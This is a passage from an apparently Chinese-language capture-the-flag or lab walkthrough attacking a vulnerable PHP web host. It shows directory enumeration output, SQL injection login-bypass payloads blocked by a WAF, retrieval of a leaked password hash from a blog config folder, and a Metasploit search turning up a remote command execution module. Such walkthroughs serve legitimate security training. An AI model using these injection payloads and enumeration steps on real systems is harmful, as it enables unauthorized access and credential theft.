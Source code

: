     [13:09:05] 200 -  629B  - /login/cpanel.js
    [13:09:05] 200 -  629B  - /login/cpanel.html
    [13:09:05] 200 -  629B  - /login/login
    [13:09:05] 200 -  629B  - /login/oauth/                                     
    [13:09:05] 200 -  629B  - /login/admin/admin.asp                            
    [13:09:05] 200 -  629B  - /login/cpanel.jsp                                 
    [13:09:05] 200 -  629B  - /login/index
    [13:09:05] 200 -  629B  - /login/administrator/                             
    [13:09:05] 200 -  629B  - /login/cpanel/
    [13:09:18] 200 -  723B  - /register.php                                     
    [13:09:18] 200 -  723B  - /register            
    ```
    
2. 访问敏感目录
    - `/blog/` blog博客页面
    - `/blog/login.php` blog登陆页面
    - `/info.php` phpinfo
    
    都是注册或者登陆界面
    
3. `/index.php`泄露了管理员邮箱尝试弱密码爆破`admin@isints.com` ，爆破失败
    - 在`/login.php`界面尝试`sql`注入，在**`Email Address`** 后面加`'` 爆出sql语句
        
        ```sql
        admin@isints.com'
        ```
        
        ```sql
        An error occurred in script '/var/www/login.php' on line 47: Query: SELECT * FROM users WHERE email='admin@isints.com'' AND pass='356a192b7913b04c54574d18c28d46e6395428ab' AND active IS NULL 
        ```
        
    - 加上`#`号闭合语句让语句为真
        
        ```sql
        email=admin@isints.com'#&pass=1&submit=Login&submitted=TRUE
        ```
        
        提示：`WAF: SQL Injection Attack Detected. Details Logged. Denying Session. Goodbye!` 被WAF阻止了，换路子
        
4. 尝试寻找`/blog/` 的漏洞
    - 打开`F12`，看看能不能查到是什么CMS，找到 `Simple PHP Blog 0.4.0` 可能就是CMS的名称
    - 网上查阅`Simple PHP Blog 0.4.0` 的漏洞
        
        敏感文件泄露：https://github.com/advisories/GHSA-p35h-cp5r-m46j ，在`/blog/config/` 泄露了`password.txt` 获得密码 `$1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/` 使用 hash-identifier 识别不到
        
    - 使用`msf`查找是否存在漏洞
        
        ```sql
        msf6 > search simple php blog
        //
        Matching Modules
        ================
        
           #  Name                                      Disclosure Date  Rank       Check  Description
           -  ----                                      ---------------  ----       -----  -----------
           0  exploit/unix/webapp/sphpblog_file_upload  2005-08-25       excellent  Yes    Simple PHP Blog Remote Command Execution
        ```
        